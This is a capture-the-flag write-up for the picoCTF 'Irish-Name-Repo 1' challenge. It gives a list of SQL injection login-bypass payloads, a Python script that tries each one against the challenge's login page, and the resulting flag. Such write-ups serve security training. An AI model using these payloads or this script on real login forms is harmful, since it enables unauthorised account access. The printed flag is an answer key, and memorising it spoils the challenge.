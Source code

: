 <h1>Irish-Name-Repo 1</h1>
<p>There is a website running at https://jupiter.challenges.picoctf.org/problem/50009/. Do you think you can log us in? Try to see if you can login!</p>
<p>Hint :</p>
<ul>
<li>There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?</li>
<li>Try to think about how the website verifies your login.</li>
</ul>
<h3>Solution</h3>
<p>SQL Injection yang bisa bypass pada Challenge</p>

```
1'or'1
admin';
admin'/*
admin'-- -
admin'or''='
```
```python3
import requests

url = 'https://jupiter.challenges.picoctf.org/problem/50009/login.php'
list_SQL = "1'or'1,admin';,admin'/*,admin'-- -,admin'or''='".split(',')
for i in list_SQL:
    data = {'username':str(i),
            'password':str(i)}
    res = requests.post(url,data=data).text
    print(res)
    if 'picoCTF' in res:
        print(i,'can bypass',res)
```
<h3>Flag</h3>
<p>picoCTF{s0m3_SQL_fb3fe2ad}</p>
